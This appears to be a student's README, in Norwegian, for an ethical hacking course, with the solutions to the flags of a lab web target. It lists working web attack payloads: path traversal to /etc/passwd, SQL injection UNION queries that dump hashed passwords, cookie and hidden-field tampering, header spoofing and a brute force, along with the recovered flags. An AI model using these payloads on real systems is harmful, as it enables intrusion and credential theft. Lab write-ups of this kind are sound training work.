 # TTM4536-Etisk-hacking

Repo for all code som blir brukt i faget, og spesielt i forhold til flag og Darkly


Flags:
1. Bruteforce
2. Passord-recovery
3. Albatros-flag? nsa?
4. Survey (trenger flag03)
5. Redirect (trenger flag04)
6. Paths
7. Hidden
8. Whatever
9. Cookies/oreo
10. Members
11. Image
12. Image2
13. Silly
14. nsa2



# Bruteforce/Flag01

Lagde et script som kjørte 2 for løkker. Begge løkkene gikkgjennom alle passordene i filen (xato.....) og i den inerste løkken skrev den ut passordene i et passord. Så alle passordene i filen ble satt sammen med alle passordene inkludert seg selv. Det endte totalt med 998001 passord grunnet at det var 999 passord i filen siden et av passordene var blankt som scriptet ikke tok med.

Etter det kjørte jeg det default scriptet med noen små justeringer og fikk ut passordet (chicken333333) for admin.


# Flag02 - Passord recovery
Editerte html coden:
Ved å legge inn eget e-post i value i stede for den som lå der orginalt
```
<form action="#" method="POST"> 
    <input type="hidden" name="mail" value="eirikgba@stud.ntnu.no" maxlength="15"> 
    <input type="submit" name="Submit" value="Submit"> 
</form>
```


# Flag03 - Albatros/NSA flag
``` 
curl -A "61c08546b939" -e "https://www.nsa.gov/" http://129.241.200.165:19680/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c
```

# Flag04 - Survey
```
http://129.241.200.165:19680/?page=survey
<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<select name="valeur" onchange="javascript:this.form.submit();">
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="999999">10</option>
					</select>
				</form>

```
Change the value of one of the Grades

2^Grade mod p = FLAG03 mod 2^64,
Where
p = Next_Prime(2^54)

# Flag05
Redirect the webpage til en annnen side
```
http://129.241.200.165:19680/index.php?page=redirect&site=5650cb0
```

# Flag06
Endre page, ved å gå til root og så inn i directory etc og vidre inn i passwd.
Hentet opp deller av flagget når en går bakover i fil systemet og det siste ligger i etc/passwd
```
http://129.241.200.165:19680/index.php?page=../../../../../../../etc/passwd
```


# Flag07
Flag07: dbfa4f7c46dc570fcd4b71272cdd2f2c
First tok jeg ut alle README filene
``` 
wget -m -r -nd -A "*README*" http://129.241.200.165:19680//.hidden/ 
```
Så merge alle filene sammen til en fil og åpne den filen i notepad
```
cat * > merged-file
explorer.exe .			#åpner directory i file explorer windows
```

# Flag08

# Flag09 - cookie
satoshi 65558: 22c9b7866d7424dc4b90a03664f5136c966fb34c8edd751cfba6998fe2b5170f
```
inspect element

document.cookie

https://www.blockchain.com/btc/block/65558

endre cookie til 000000000a7dce5ac40e7a88fd61399bbe76da161c1d65cbc2ebf2bd364545ed
```

# Flag10
Flag10: cfd650ecf156952e7764710e18c0b4fcb2179e3c48ac922ee4bb1d3d2210e8 
```
1 union select null, concat(table_name) from information_schema.tables where table_schema=database()
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
1 AND 1=2 UNION SELECT user_id99, CONCAT(first_name64, last_namecc, birthdate, email60, town91, country3e, comment92, HashedPassword) FROM clients

1 AND 1=2 UNION SELECT HashedPassword, CONCAT(user_id99, first_name64, last_namecc, birthdate, email60, town91, country3e, comment92) FROM clients
1 AND 1=2 UNION SELECT HashedPassword FROM clients










0781eeb28b88a1b9d57388163ae891fe6755096c34f24884584eb4d5b0842934
072472842cce7d49595202c4ceb061b7337282864ac89fc83444593e0f71ad37
0755d3f6381ba4680d8588e7512cb0707f35e24477cd0156dfe45a34ef105d3e
079db43068890999ad85c21f7a56f7fe82508731e44bd6ad6d00fa4910bc39d2
074500f0050818df67488ee3e29503943dea2c86820b58c41593dc9952b23e9c
07c08821b0d263eabdde23e00c823472f526961fd560da47ebf034f8293525ad
0708aac80014e6cf173f1ba0e31ebe5217a75e655e6c59dc4e324241902e058e
07d888eac2e9817b4b5834f7871dd3e2355fc3f4e4fa6ce597c592f608e7dd34
07ec866e79bf675f90d3b97ab11fa871a7e6de7e9dfd703b9c81b97e1a974163
077b1d907c1af5cb9d2de0efad16c9e16d31155ccf4758fd653d33eb6e3b59c1
0736236dc3a811b092f43b806392e25b9ebfa65ab101b21b79b1860a589f0a85
0721b9be8480d9b9903755dba557221014ae31493fdb3ad51ff4afea93cb811e
0774d2aaffaf19f5d2b1cb1ba7fdd2a2b21677e3f82df719fcc05195afc8ff37
077c9d60af001f30ec5001412032a063708a6dfdccc633947c254ded30488669
073ea70c5623d9d8ee55221503e3aba85085612da5237c32e3771da39493f6e2
07dfa45244586cd55f085b554182f5a82a112b81ad4e9472a6d6b73cc825fffc
07c5c4b9dc9b1ad195a46d25e656fdc5d6fb174eafbb80d6fbe052ddb783d787
0716688c4b1209a93986268d70cfa9b6e09168e263720cb81f816e81313b1cbf
07ac6d98121346f110c7c072eada56d829e5895e56e93eca6887ed926f90c960
0718ec8dd16d5a9f10605f04a32b1a68d4bc4321b49ccec52174bb16c24980b9
07621d8201c3ae1c7e5b403dffee899ca9062e5dd9083f9ad9a2df34235fbce0
071cac57e5729a08e04e99560131f39d4d3349a21ccb7de204887b3cfe67ad76
07baba47112ed595f72c90bf6da9c3995024f7d14306633f542e7a895841686d
0716830d9e3a1e5267115ff7f341e68cd4a5563f8a4f212405bdd685c5cf7c9c
07b1faa60739edbe200c2909a4e61757fb63fedd38c7d897dc3f012e885cf720
079e1255e419023fb127df6d9eac15b434ee2451107ddd6176749e61c4b4867a
07f1f2d0aa7bee909f1f74afaa5a1356f385fab15a412cac58bbb7164445fb8b
07fbb71f80b6d56558fb02111c296a500702d02ba3621f6f34564e3f499617f3
076c5daac63cda2742f1ae1570ff56a0f970bbfd86ee484c2ad790ea82bf17f5
0717b2882987bd5ae8e4cd9bc70e4f2ae2890df4317f6f5ed3ce864e70f2a97f
076062b9678f68b21515965d0d4e85da34da4bad65faeb8fbaca8baae8308f57
07a87c0353fa07960b6c3ecb593381f7f29d5e1f0b4eea8da5228be123c2a772
0799878f5f6365c0b61b3683aefec65cff5bf3b373da9f30dd0728acace3147b
0707c88b56cb8c4a1411d4e61d50a60e0db86f5dbb98f0242d660eaf54a282cf
0779df153e311abd1648885a219360c41a8b37dd5544c6949c4629aaa13b5532
075aa3e076b30d9ff06a41db069b813ce25159d66b6352fde078c633a8d29f78






```

# Flag11

# Flag12

# Flag13
Congratulations Flag13 is 6bad301f529ea136b3427e9daf2e6b2e
```
http://129.241.200.165:19680/test.php
```

# Flag14

